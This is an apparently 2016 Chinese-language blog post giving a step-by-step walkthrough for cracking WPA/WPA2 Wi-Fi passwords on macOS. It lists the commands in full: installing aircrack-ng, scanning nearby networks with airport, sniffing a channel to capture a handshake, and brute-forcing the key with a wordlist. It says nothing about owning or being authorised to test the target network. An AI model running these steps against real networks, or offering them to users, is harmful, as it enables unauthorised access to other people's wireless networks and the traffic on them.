 ```yaml
---
layout: post
title: mac osx 破解wpa/wpa2 wifi
date: 2016-01-06 23:35:26
categories: technique
tags: [mac, tool]
keywords: [wifi, hack, crack]
toc:
---
```


在mac osx下进行wpa/wpa2 加密的wifi破解

- 首先要安装`aircrack-ng`工具
```
#可以使用Homebrew进行安装

brew install aircrack-ng
```
如果安装过程中出现下载失败, [这篇文章](/2016/01/brew-手工下载文件安装2016-01-06/)

- 用airport搜索附近wifi
```
sudo airport -s
```
<!-- more -->
结果如下图所示:
![airport -s output](/source/images/2016/airport_s.png)
- 根据搜索出的wifi进行嗅探
```
sudo airport ***en0*** sniff ***1***
```
上面的en0为wifi card所在的地址, 有的也可能为en1, 可以根据实际情况输入, 可从以下地方获得:
![wifi card addr](/source/images/2016/wificard_addr.png)

1为你所要嗅探的wifi所在的CHANNEL.

默认嗅探的所存的文件在/tmp中, 以airportSniff****.cap形式命名.

- 最后就是使用aircrack-ng和下载的密码字典进行暴力破解
```
aircrack-ng -w wordlist airportSniff****.cap
```
一般输入如下所示:
![aircrack-ng run output](/source/images/2016/aircrack-ng.png)

看上面cap文件内的抓包内容, Encryption列中找到WPA (1 handshake)---它表示抓包成功. 当然要找到你想破解wifi的成功抓包, 然后在「Index number of target network?」中输入该成功抓包所在的行号. 此示例中为1:
![index number](/source/images/2016/index_number.png)

破解过程如下:
![aircrack-ng running](/source/images/2016/running.png)

如果破解成功, 会显示 KEY FOUND!:
![aircrack-ng crack successfully](/source/images/2016/aircrack-ng-success.jpg)
